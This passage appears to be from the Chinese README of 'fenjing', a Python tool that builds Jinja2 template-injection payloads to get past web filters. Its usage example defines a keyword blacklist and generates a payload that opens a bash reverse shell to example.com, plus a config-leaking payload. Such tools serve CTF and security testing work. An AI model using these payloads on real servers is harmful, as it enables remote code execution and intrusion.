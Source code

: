 ### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)

## 项目结构

[![](https://mermaid.ink/img/pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE?type=png)](https://mermaid.live/edit#pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE)
